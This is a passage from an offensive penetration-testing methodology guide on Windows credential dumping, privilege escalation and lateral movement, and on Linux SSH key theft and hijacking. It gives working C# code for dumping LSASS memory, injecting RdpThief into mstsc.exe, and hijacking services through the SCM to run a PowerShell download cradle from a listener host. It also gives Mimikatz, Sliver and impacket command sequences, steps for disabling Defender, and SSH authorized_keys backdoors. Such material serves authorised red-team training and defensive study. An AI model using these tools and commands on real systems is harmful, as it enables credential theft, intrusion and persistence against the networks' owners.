# Terminal 1 (Network Service context) PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss # Terminal 2 (any context) SpoolSample.exe [target-host] [target-host]/pipe/test -
RoguePotato.exe -r [listener-ip] -e "cmd.exe" -l 9999 -
sliver ([session]) > ps -e cmd sliver ([session]) > migrate -p [pid]
15.5 Token Impersonation with Incognito
Once SYSTEM-level access is obtained, delegation tokens for other authenticated users may be present in memory. These tokens can be impersonated via the Win32 ImpersonateLoggedOnUser API to obtain code execution in the context of another user — including domain administrators — without requiring their credentials or password hashes. This technique avoids writing credentials to disk and may bypass credential-focused detection.
In Sliver, the steal-token and SharpImpersonation assembly provide similar capability. Any delegation token for a logged-in user (e.g. an admin who has RDP'd to the target) becomes a pivot to that user's domain context, enabling further lateral movement and authentication to remote resources.
| Token Category | Description | Usable For |
|---|---|---|
| Delegation tokens | Created when a user interactively logs in (RDP, console) | Full impersonation including remote resource access |
| Impersonation tokens | Network logon tokens (e.g. from SMB access) | Local impersonation only |
Methodology
-
sliver ([session]) > ps -
sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpImpersonation.exe user:[user] technique:ImpersonateLoggedOnUser -
sliver ([session]) > migrate -p [pid] -
sliver ([session]) > execute -o whoami
15.6 Kerberos Authentication
Kerberos is the primary authentication protocol in Active Directory environments since Windows Server 2003. It uses a ticket-based system where the Domain Controller acts as a Key Distribution Center (KDC). Unlike NTLM's challenge-response mechanism, Kerberos issues time-limited tickets that clients present to services, preventing repeated credential transmission on the network.
The authentication flow involves three exchanges: AS_REQ/AS_REP (initial authentication, yields TGT and session key), TGS_REQ/TGS_REP (service ticket request using the TGT), and AP_REQ (service authentication using the service ticket). The TGT is encrypted with a key known only to the KDC and is valid for 10 hours by default. Service tickets are encrypted with the service account's password hash, which is significant for Kerberoasting attacks.
| Exchange | Direction | Contents / Key Material |
|---|---|---|
| AS_REQ | Client → KDC | Timestamp encrypted with user's password hash |
| AS_REP | KDC → Client | Session key (encrypted with user hash) + TGT (encrypted with KDC secret) |
| TGS_REQ | Client → KDC | TGT + SPN of target service + authenticator encrypted with session key |
| TGS_REP | KDC → Client | Service ticket (encrypted with service account hash) + new session key |
| AP_REQ | Client → Service | Service ticket + authenticator encrypted with service session key |
Methodology
-
nltest /dsgetdc:[domain] nslookup -type=SRV _kerberos._tcp.[domain] -
klist -
sliver ([session]) > rubeus -- triage
15.7 Mimikatz and LSASS Credential Dumping
Kerberos authentication requires password hashes to be cached in the LSASS process memory for TGT renewal. Mimikatz, written by Benjamin Delpy, can extract these cached hashes and Kerberos tickets directly from LSASS memory. LSASS runs as SYSTEM, so local administrator access and the SeDebugPrivilege privilege are required. Mimikatz enables SeDebugPrivilege with privilege::debug and calls AdjustTokenPrivileges internally.
The WDigest authentication provider, disabled since Windows 8.1, stores clear-text passwords in LSASS. Setting HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential to 1 re-enables it, causing clear-text credentials to be cached after subsequent logins — useful when NTLM hashes are insufficient.
| Mimikatz Command | Purpose |
|---|---|
privilege::debug | Enable SeDebugPrivilege to access LSASS |
token::elevate | Elevate to SYSTEM token for full access |
sekurlsa::logonpasswords | Dump NTLM hashes and Kerberos tickets from LSASS |
sekurlsa::ekeys | Dump Kerberos encryption keys (AES) |
sekurlsa::wdigest | Dump WDigest clear-text credentials (if enabled) |
sekurlsa::dpapi | Dump DPAPI master keys from LSASS |
lsadump::sam | Dump SAM database hashes |
lsadump::secrets | Dump LSA secrets |
lsadump::cache | Dump cached domain credentials (DCC2 hashes) |
Methodology
-
sliver ([session]) > mimikatz "token::elevate" "sekurlsa::logonpasswords" "exit" -
sliver ([session]) > mimikatz "token::elevate" "lsadump::sam" "exit" sliver ([session]) > mimikatz "token::elevate" "lsadump::secrets" "exit" sliver ([session]) > mimikatz "token::elevate" "lsadump::cache" "exit" -
sliver ([session]) > mimikatz "token::elevate" "sekurlsa::ekeys" "exit" sliver ([session]) > mimikatz "token::elevate" "sekurlsa::dpapi" "exit" -
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f -
sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command logonpasswords sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command ekeys -
sliver ([session]) > upload /home/kali/tools/bins/exes/LaZagne.exe sliver ([session]) > execute -o LaZagne.exe all -v
15.8 LSA Protection (PPL) Bypass
Protected Process Light (PPL), introduced in Windows 8, can be applied to LSASS via the registry value HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1. PPL prevents even SYSTEM-integrity processes from reading or modifying a PPL-protected process's memory space. When PPL is active, Mimikatz's sekurlsa::logonpasswords returns error 0x00000005 (Access Denied).
Mimikatz includes the mimidrv.sys kernel driver to bypass PPL. Because administrators have SeLoadDriverPrivilege, the driver can be loaded and used to clear the protection bit in the LSASS EPROCESS kernel object. The driver must be uploaded to the target before Mimikatz runs from the same directory.
Methodology
-
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL -
sliver ([session]) > upload /home/kali/tools/bins/csharp-files/mimidrv.sys c:/windows/temp/mimidrv.sys sliver ([session]) > cd c:/windows/temp/ -
sliver ([session]) > mimikatz '"privilege::debug" "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"' -
# On Kali — pack mimikatz with LSA-bypass arguments PEzor -unhook -antidebug -fluctuate=NA -format=dotnet -sleep=5 /home/kali/tools/bins/exes/mimikatz.exe -z 2 -p '"privilege::debug" "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"' # Deploy via Sliver sliver ([session]) > execute-assembly /home/kali/tools/bins/exes/mimikatz.exe.packed.dotnet.exe -
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 0 /f
15.9 Processing Credentials Offline
Dumping LSASS memory and exfiltrating the dump file allows credential extraction on an analyst-controlled machine, avoiding uploading Mimikatz to the target. This reduces the on-disk footprint and is less likely to trigger endpoint detection. The dump file can be created by Task Manager (GUI), ProcDump from SysInternals, or a custom C# application using the MiniDumpWriteDump Win32 API. The processing machine OS and architecture must match the target for Mimikatz to parse the dump correctly.
The custom C# approach using MiniDumpWriteDump avoids known tool signatures. The function requires a process handle and PID for LSASS (obtained via OpenProcess and Process.GetProcessesByName), a file handle for the output dump, and the dump type set to MiniDumpWithFullMemory (value 2). The application must run from an elevated prompt since OpenProcess requires administrative rights to access LSASS.
| Argument | Value / Source | Notes |
|---|---|---|
hProcess | OpenProcess(0x001F0FFF, false, lsass_pid) | Full access to LSASS process |
ProcessId | Process.GetProcessesByName("lsass")[0].Id | LSASS PID from .NET Process class |
hFile | FileStream.SafeFileHandle.DangerousGetHandle() | File handle from FileStream constructor |
DumpType | 2 (MiniDumpWithFullMemory) | Full memory dump required for credential extraction |
ExceptionParam / UserStreamParam / CallbackParam | IntPtr.Zero | Not needed for credential dumping use case |
15.9.1 MiniDumpWriteDump C# Implementation
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;
namespace MiniDump
{
class Program
{
[DllImport("Dbghelp.dll")]
static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,
IntPtr hFile, int DumpType, IntPtr ExceptionParam,
IntPtr UserStreamParam, IntPtr CallbackParam);
[DllImport("kernel32.dll")]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,
int processId);
static void Main(string[] args)
{
FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
bool dumped = MiniDumpWriteDump(handle, lsass_pid,
dumpFile.SafeFileHandle.DangerousGetHandle(),
2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
}
}
}Methodology
-
# Task Manager creates dump at: # C:\Users\[user]\AppData\Local\Temp\lsass.DMP -
procdump.exe -accepteula -ma lsass.exe C:\Windows\Tasks\lsass.dmp -
MiniDump.exe # Output: C:\Windows\tasks\lsass.dmp -
sliver ([session]) > download C:\Windows\tasks\lsass.dmp /home/kali/loot/lsass.dmp -
mimikatz # sekurlsa::minidump lsass.dmp mimikatz # sekurlsa::logonpasswords -
impacket-secretsdump -sam /home/kali/loot/sam -system /home/kali/loot/system LOCAL
15.10 Remote Credential Dumping
With valid credentials or NTLM hashes for a local administrator account, credentials can be dumped remotely without an interactive session. impacket-secretsdump connects over SMB and extracts SAM, LSA secrets, and cached credentials remotely. NetExec (nxc) wraps these capabilities and adds DCSync support, making it the preferred tool for bulk credential harvesting across a subnet.
Methodology
-
impacket-secretsdump ./Administrator@[target] -hashes ':[ntlm-hash]' -dc-ip [dc] -target-ip [target] -
impacket-secretsdump [domain]/[user]:'[password]'@[target] -dc-ip [dc] -target-ip [target] -
nxc smb [subnet]/24 -d [domain] -u [user] -p [password] nxc smb [subnet]/24 -d . -u Administrator -H [ntlm-hash] -
nxc smb [dc] --use-kcache --sam --lsa --dpapi -M ntdsutil -
nxc smb [dc] -d [domain] -u [user] -p '[password]' --ntds --user krbtgt nxc smb [dc] -d [domain] -u [user] -p '[password]' --ntds --user Administrator -
sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --Domain [domain] --DomainController [dc] sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --User [domain]\\Administrator --Domain [domain] --DomainController [dc] -
nxc winrm [subnet]/24 -d [domain] -u [user] -H [ntlm-hash]
15.11 Post-Exploitation Steps After Credential Dumping
After obtaining privileged credentials or a SYSTEM-level session, standardized post-exploitation steps maximize persistence and pivot opportunities. Enabling RDP and WinRM provides alternative access vectors if the Sliver session is lost. Disabling Windows Defender removes the primary detection mechanism before staging further tools. Adding a local administrator account or a controlled domain user to the local admin group ensures persistence even if passwords change.
Methodology
-
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f netsh firewall add portopening TCP 3389 "Remote Desktop" # Via Sliver sharpsh sliver ([session]) > sharpsh -- -e -c U2V0LUl0ZW1Qcm9wZXJ0eSAtUGF0aCAiSEtMTTpcU1lTVEVNXEN1cnJlbnRDb250cm9sU2V0XENvbnRyb2xcVGVybWluYWwgU2VydmVyIiAtTmFtZSAiZkRlbnlUU0Nvbm5lY3Rpb25zIiAtVmFsdWUgMCAtVHlwZSBEV29yZA0K -
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -
xfreerdp /u:Administrator /pth:[ntlm-hash] /v:[target] /cert:ignore /dynamic-resolution -
sliver ([session]) > sharpsh -- -c '"Enable-PSRemoting -Force"' -
sliver ([session]) > sharpsh -t 20 -- -c "Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true" -
sliver ([session]) > execute -o net localgroup administrators [domain]\\[user] /add sliver ([session]) > execute -o net localgroup administrators -
sliver ([session]) > execute -o net user /add [user] "[password]" /Y sliver ([session]) > execute -o net localgroup administrators [user] /add sliver ([session]) > execute -o net localgroup "Remote Desktop Users" [user] /add sliver ([session]) > execute -o net localgroup "Remote Management Users" [user] /add -
sliver ([session]) > cat C:/Users/Administrator/Desktop/proof.txt sliver ([session]) > cat C:/Users/Public/local.txt
16. Windows Lateral Movement
Windows lateral movement primarily abuses a small set of authenticated protocols — RDP, SMB/DCE-RPC, and WMI — along with NTLM hash or Kerberos ticket reuse. Most techniques require local administrator access on the target. The sections below cover RDP-based movement (GUI, console, hash-passing, reverse proxying, credential theft) followed by a fileless SCM-based variant of PsExec, then Sliver-native lateral movement primitives.
16.1 Lateral Movement with RDP
RDP (Remote Desktop Protocol) is ubiquitous in corporate environments and therefore blends well with normal traffic. Standard RDP requires clear-text credentials. When a session is created, NTLM hashes reside in LSASS memory for its duration — disconnecting without logging out leaves them exposed to credential dumping.
Restricted Admin Mode removes clear-text credential caching by using a network logon instead of an interactive one. It can be enabled or disabled via the DisableRestrictedAdmin registry value. Once enabled, it also permits passing the hash with mstsc.exe /restrictedadmin or xfreerdp /pth:.
| Method | Tool | Credentials Required | Caches in LSASS |
|---|---|---|---|
| Standard RDP | mstsc.exe / rdesktop | Cleartext password | Yes (NTLM + cleartext) |
| Restricted Admin Mode | mstsc.exe /restrictedadmin | Current session token | No |
| Pass-the-Hash via Restricted Admin | Mimikatz + mstsc / xfreerdp /pth | NTLM hash | No |
Methodology
-
# Enable via PSRemoting after PTH into PowerShell Enter-PSSession -Computer [target] New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -
mimikatz "privilege::debug" "sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlm-hash] /run:\"mstsc.exe /restrictedadmin\"" "exit" -
xfreerdp /u:[user] /pth:[ntlm-hash] /v:[target] /cert:ignore /dynamic-resolution -
mimikatz "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
16.2 Reverse RDP Proxying with Metasploit
When an internal host is behind NAT or an edge firewall, direct RDP connections from the attacker machine are blocked. Metasploit's autoroute module can establish a reverse tunnel through an active Meterpreter session, and a SOCKS proxy can then forward RDP traffic over that tunnel.
Proxychains is used to force rdesktop or xfreerdp through the SOCKS listener on localhost. The route created by autoroute covers the entire internal subnet, making all internal hosts reachable through the same tunnel.
Methodology
-
msf6 exploit(multi/handler) > sessions -i 1 meterpreter > background -
msf6 > use multi/manage/autoroute msf6 post(multi/manage/autoroute) > set session 1 msf6 post(multi/manage/autoroute) > exploit -
msf6 > use auxiliary/server/socks4a msf6 auxiliary(server/socks4a) > set srvhost 127.0.0.1 msf6 auxiliary(server/socks4a) > exploit -j -
sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf' -
proxychains rdesktop [target-internal-ip]
16.3 Reverse RDP Proxying with Chisel
Chisel is a standalone Go-based tunneling tool that creates a TCP tunnel over HTTP secured with SSH. It operates independently of any C2 framework and is useful when a standalone tunnel is needed. Both server (Kali) and client (Windows target) components are compiled from the same source.
The Chisel server runs on the attacker machine in SOCKS5 mode. The client on the compromised Windows host connects back and registers a SOCKS listener on the server. Proxychains or a local SSH SOCKS forward routes RDP traffic through the resulting tunnel.
| Component | Role | Command |
|---|---|---|
| chisel (Linux) | SOCKS5 server on Kali | ./chisel server -p 8080 --socks5 |
| chisel.exe (Windows) | Client connects to Kali | chisel.exe client [listener-ip]:8080 socks |
| SSH | Local SOCKS proxy on Kali | ssh -N -D 0.0.0.0:1080 localhost |
Methodology
-
# Linux build cd chisel && go build # Windows cross-compile env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w" -
./chisel server -p [listener-port] --socks5 -
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config sudo systemctl start ssh.service ssh -N -D 0.0.0.0:1080 localhost -
chisel.exe client [listener-ip]:[listener-port] socks -
sudo proxychains rdesktop [target-internal-ip]
16.4 RDP as a Console (SharpRDP)
RDP does not require a GUI client. The terminal services COM library mstscax.dll exposes non-scriptable interfaces that SharpRDP leverages to authenticate and execute commands via SendKeys. This eliminates the need for a graphical session or a reverse tunnel.
SharpRDP is executed from an already-compromised host with clear-text credentials for the target. It can chain commands using stacked PowerShell calls to download and execute payloads. Within Sliver, SharpRDP is available as an armory alias and can also be invoked through execute-assembly.
| Parameter | Description | Example Value |
|---|---|---|
| computername | Target hostname or IP | [target] |
| username | Domain\User for authentication | [domain]\[user] |
| password | Clear-text credential | [password] |
| command | Command to execute via SendKeys | powershell ... |
Methodology
-
sliver ([session]) > upload /home/kali/tools/bins/csharp-files/SharpRDP.exe c:/windows/temp/sharprdp.exe -
sliver ([session]) > shell c:/windows/temp/sharprdp.exe computername=[target] command=calc username=[domain]\[user] password=[password] -
c:/windows/temp/sharprdp.exe computername=[target] username=[domain]\[user] password=[password] command="powershell (New-Object System.Net.WebClient).DownloadFile('http://[listener-ip]/sliver.exe','C:\Windows\Tasks\sliver.exe'); C:\Windows\Tasks\sliver.exe" -
sliver ([session]) > sharprdp -- computername=[target] password=[password] username=[domain]\[user] command=C:\\Windows\\Temp\\sliver.exe
16.5 Stealing Clear-Text Credentials from RDP (RdpThief)
When a user authenticates through mstsc.exe, three APIs process the credentials: CredIsMarshaledCredentialW (username), CryptProtectMemory (password), and SspiPrepareForCredRead (domain). RdpThief uses the Microsoft Detours library to hook these APIs and copy the credentials to a file before allowing normal execution to continue.
RdpThief is an unmanaged DLL that must be injected into a running mstsc.exe process before the user enters credentials. The injection uses the standard OpenProcess / VirtualAllocEx / WriteProcessMemory / CreateRemoteThread + LoadLibraryA chain. A polling loop ensures injection into any newly spawned mstsc instance.
| API Hooked | Credential Component |
|---|---|
| CredIsMarshaledCredentialW | Username |
| CryptProtectMemory | Password |
| SspiPrepareForCredRead | Domain |
The DLL injection C# template below injects RdpThief.dll into any mstsc.exe process and polls every second for new instances:
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading;
namespace RdpThiefInject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
public static extern IntPtr GetModuleHandle(string lpModuleName);
static void Main(string[] args)
{
String dllName = "C:\\Tools\\RdpThief.dll";
while (true)
{
Process[] mstscProc = Process.GetProcessesByName("mstsc");
if (mstscProc.Length > 0)
{
for (int i = 0; i < mstscProc.Length; i++)
{
int pid = mstscProc[i].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
}
}
Thread.Sleep(1000);
}
}
}
}Methodology
-
sliver ([session]) > upload /home/kali/tools/RdpThief.dll C:/Tools/RdpThief.dll -
sliver ([session]) > upload /home/kali/tools/RdpThiefInject.exe C:/Tools/Inject.exe -
sliver ([session]) > shell C:\Tools\Inject.exe -
type C:\Users\[user]\AppData\Local\Temp\[session-id]\data.bin
16.6 Fileless Lateral Movement via SCM
Standard PsExec writes a binary to the target disk and creates a new service. A stealthier approach uses the existing Service Control Manager (SCM) DCE/RPC interface to modify the binary path of an existing, non-critical service rather than creating a new one. OpenSCManagerW authenticates using the current thread's access token — no password is needed — which makes pass-the-hash trivial.
The technique targets a non-critical service like SensorService (present on Windows 10/2016/2019, not auto-started). It changes the service binary to a PowerShell download cradle, starts the service to execute code, and then restores the original binary path. No new service entries or binaries touch disk.
| Win32 API | Purpose | Key Arguments |
|---|---|---|
| OpenSCManagerW | Authenticate to SCM on target | machineName, SC_MANAGER_ALL_ACCESS (0xF003F) |
| OpenServiceW | Open handle to existing service | ServiceName, SERVICE_ALL_ACCESS (0xF01FF) |
| ChangeServiceConfigA | Replace service binary path | lpBinaryPathName = payload, dwStartType = 3 (DEMAND_START) |
| StartServiceA | Execute the modified service | hService, 0 args |
| QueryServiceConfig | Retrieve original binary path before modification | hService |
The complete C# implementation is shown below. It authenticates to the target SCM, opens SensorService, swaps its binary, executes it, then restores the original path:
using System;
using System.Runtime.InteropServices;
namespace FilelessLateral
{
class Program
{
[DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true,
CharSet = CharSet.Unicode, SetLastError = true)]
public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);
[DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType,
int dwStartType, int dwErrorControl, string lpBinaryPathName,
string lpLoadOrderGroup, string lpdwTagId, string lpDependencies,
string lpServiceStartName, string lpPassword, string lpDisplayName);
[DllImport("advapi32", SetLastError = true)]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);
static void Main(string[] args)
{
String target = "[target]";
String ServiceName = "SensorService";
// Authenticate to SCM
IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
if (SCMHandle == IntPtr.Zero)
{
Console.WriteLine("[-] OpenSCManager failed: " + Marshal.GetLastWin32Error());
return;
}
// Open target service
IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);
if (schService == IntPtr.Zero)
{
Console.WriteLine("[-] OpenService failed: " + Marshal.GetLastWin32Error());
return;
}
// Payload: PowerShell download cradle (no file written to disk)
string payload = "C:\\Windows\\System32\\cmd.exe /c powershell -nop -w hidden -c " +
"\"IEX((New-Object Net.WebClient).DownloadString('http://[listener-ip]/implant.ps1'))\"";
// Swap service binary
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0,
payload, null, null, null, null, null, null);
// Execute
bResult = StartService(schService, 0, null);
Console.WriteLine("[+] Service started with payload. Restore original binary manually.");
}
}
}Methodology
-
sliver ([session]) > sa-whoami -
sudo cp /home/kali/tools/implant.ps1 /var/www/html/ sudo systemctl start apache2 -
sliver ([session]) > upload /home/kali/tools/FilelessLateral.exe C:/Windows/Tasks/FilelessLateral.exe -
mimikatz "privilege::debug" "sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlm-hash] /run:FilelessLateral.exe" "exit" -
sliver ([session]) > shell C:\Windows\Tasks\FilelessLateral.exe -
python3 scshell.py [domain]/[user]@[target] -hashes :[ntlm-hash] -service-name SensorService \ -payload "powershell -nop -w hidden -enc [base64-cradle]"
16.7 Sliver: Token Creation and Pass-the-Hash
Sliver C2 provides built-in commands to create impersonation tokens, pass NTLM hashes, and steal tokens from existing processes. These capabilities allow lateral movement without dropping additional tooling. The token commands operate within the current session and are backed by Mimikatz's DLL injection engine or Sliver's native PTH implementation.
| Sliver Command | Purpose | Requires |
|---|---|---|
mimikatz sekurlsa::pth | Pass-the-hash, spawn process as another user | Admin / SeDebugPrivilege |
make-token | Create logon token for domain/local user with cleartext password | Cleartext credentials |
runas | Launch process as alternate user (inject or direct shell) | Cleartext credentials |
migrate | Migrate Sliver into another process to steal its token | Admin |
execute-shellcode -p [pid] | Inject shellcode into a process to steal its token | Admin |
rubeus createnetonly | Create sacrificial process with specific credentials for ticket injection | Admin |
Methodology
-
sliver ([session]) > mimikatz '"privilege::debug" "sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlm-hash]" "exit"' sliver ([session]) > migrate -p [pid] -
# Domain user sliver ([session]) > make-token -d [domain] -u [user] -p [password] # Local user / machine account sliver ([session]) > make-token -d . -u Administrator -p [password] -
sliver ([session]) > runas -d [domain] -u [user] -P [password] -n -p C:\\Windows\\System32\\cmd.exe sliver ([session]) > ps -e cmd.exe sliver ([session]) > migrate -p [pid] -
sliver ([session]) > runas -d [domain] -u [user] -P [password] -n -p "C:\Windows\System32\cmd.exe" -a "/c powershell -enc [base64-cradle]" -
sliver ([session]) > rubeus -t 20 -- createnetonly /program:C:\\Windows\\System32\\cmd.exe /domain:[domain] /username:[user] /password:[password] sliver ([session]) > migrate -p [pid] -
sliver ([session]) > ps -e explorer sliver ([session]) > execute-shellcode -S -r -I 30 -p [pid] /home/kali/payloads/sliver.x64.bin -
sliver ([session]) > sa-whoami
16.8 Sliver: PsExec Lateral Movement
After obtaining a valid token (via PTH, make-token, or token stealing), Sliver's psexec command uses the current session token to authenticate to the target SCM over SMB and deploy an implant as a service. A dedicated lateral-movement profile must be created in the service format before invoking psexec.
The jump-psexec BOF performs the same action inline without spawning an external process, reducing detection surface. It copies a specified executable to the target via UNC path and registers it as a service.
Methodology
-
sliver > profiles new --http [listener-ip]:[listener-port] --format service osep-lateral sliver > http -L [listener-ip] --lport [listener-port] -
sliver ([session]) > mimikatz '"privilege::debug" "sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlm-hash]" "exit"' sliver ([session]) > migrate -p [pid] -
sliver ([session]) > psexec -d Title -s Description -p osep-lateral [target] -
sliver > use [new-session-id] sliver ([new-session]) > sa-whoami -
sliver ([session]) > jump-psexec [target] AgentSvc /home/kali/payloads/sliver.x64.exe //[target]/c$/sliver.x64.exe
16.9 Sliver: WMI Lateral Movement
WMI (Win32_Process.Create) is a fileless lateral movement vector that does not interact with the SCM or create services. It executes a command in the context of the target user by invoking a WMI method over DCOM. Sliver's jump-wmiexec BOF wraps this capability and executes a command on the remote host using the current session's token.
The typical payload is a base64-encoded PowerShell download cradle that retrieves and executes a Sliver implant. Because WMI process creation is asynchronous, no output is returned — the implant must call back to the listener to confirm execution.
Methodology
-
sliver ([session]) > make-token -d [domain] -u [user] -p [password] -
echo -n "(New-Object Net.WebClient).DownloadString('http://[listener-ip]/implant.ps1') | IEX" | iconv -t UTF-16LE | base64 -w 0 -
sliver ([session]) > jump-wmiexec [target] 'powershell -enc [base64-cradle]' -
sliver > sessions sliver > use [new-session-id] -
sliver ([session]) > execute-assembly /home/kali/tools/bins/csharp-files/SharpWMI.exe action=exec computername=[target] command="powershell -enc [base64-cradle]" -
impacket-wmiexec [domain]/[user]@[target] -hashes :[ntlm-hash]
17. Linux Lateral Movement
17.1 SSH Key Theft
SSH private keys are high-value targets because they grant access to any remote host configured to accept them, bypassing password authentication entirely. Default private keys are named id_rsa and stored in ~/.ssh/ with 600 permissions, but users sometimes place keys in non-standard locations with weak permissions. Gaining root access on a Linux host unlocks the ability to browse all user home directories for such keys.
A passphrase-protected key contains Proc-Type: 4,ENCRYPTED and DEK-Info headers. Even when a passphrase is set, the verification is client-side, meaning the encrypted key can be cracked offline with John the Ripper or Hashcat. After stealing the key, check ~/.bash_history and ~/.ssh/known_hosts to identify target hosts.
| File | Purpose | Expected Location |
|---|---|---|
id_rsa | Default RSA private key | ~/.ssh/id_rsa |
authorized_keys | Permitted public keys for login | ~/.ssh/authorized_keys |
known_hosts | Previously connected hosts | ~/.ssh/known_hosts |
.bash_history | Command history revealing SSH targets | ~/.bash_history |
Methodology
-
find /home/ -name "id_rsa" 2>/dev/null find /home/ -name "*.key" -o -name "*.pem" 2>/dev/null ls -al /home/[user]/ -
head -3 /home/[user]/[key-file] -
cat /home/[user]/.bash_history | grep ssh cat /home/[user]/.ssh/known_hosts -
scp [user]@[target]:/home/[user]/[key-file] /tmp/[key-file] python /usr/share/john/ssh2john.py /tmp/[key-file] > /tmp/[key-file].hash -
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/[key-file].hash -
chmod 600 /tmp/[key-file] ssh -i /tmp/[key-file] [user]@[target]
17.2 SSH Persistence via authorized_keys
Appending a controlled public key to a user's ~/.ssh/authorized_keys file establishes persistent access without needing to crack or steal existing credentials. This requires write access to the file, which is owned by the target user with 644 permissions. On most systems only the file owner and root can write to it, so this technique typically requires at least a compromised shell as the target user or root access.
Methodology
-
ssh-keygen -t rsa -b 4096 -f /tmp/backdoor_rsa -N "" -
echo "$(cat /tmp/backdoor_rsa.pub)" >> /home/[user]/.ssh/authorized_keys -
cat /home/[user]/.ssh/authorized_keys | tail -1 ls -al /home/[user]/.ssh/authorized_keys -
ssh -i /tmp/backdoor_rsa [user]@[target]
17.3 SSH Hijacking with ControlMaster
ControlMaster is an SSH feature that multiplexes multiple sessions over a single network connection. When configured, it creates a socket file in a specified directory that subsequent SSH connections reuse without re-authenticating. An attacker with write access to a user's home directory can pre-configure ~/.ssh/config to enable ControlMaster, then hijack that user's subsequent connections.
The attack has two variants: as the same user (simply ssh to a host for which an open socket exists) or as root (use the -S flag to specify another user's socket file directly). The socket persists for the duration set in ControlPersist.
| Config Directive | Value | Effect |
|---|---|---|
ControlPath | ~/.ssh/controlmaster/%r@%h:%p | Socket file path pattern (user@host:port) |
ControlMaster | auto | Reuse existing socket or create new one |
ControlPersist | 10m | Socket stays open 10 minutes after last session |
Methodology
-
cat > /home/[user]/.ssh/config << 'EOF' Host * ControlPath ~/.ssh/controlmaster/%r@%h:%p ControlMaster auto ControlPersist 10m EOF chmod 644 /home/[user]/.ssh/config -
mkdir -p /home/[user]/.ssh/controlmaster -
ls -al /home/[user]/.ssh/controlmaster/ -
ssh [user]@[downstream-target] -
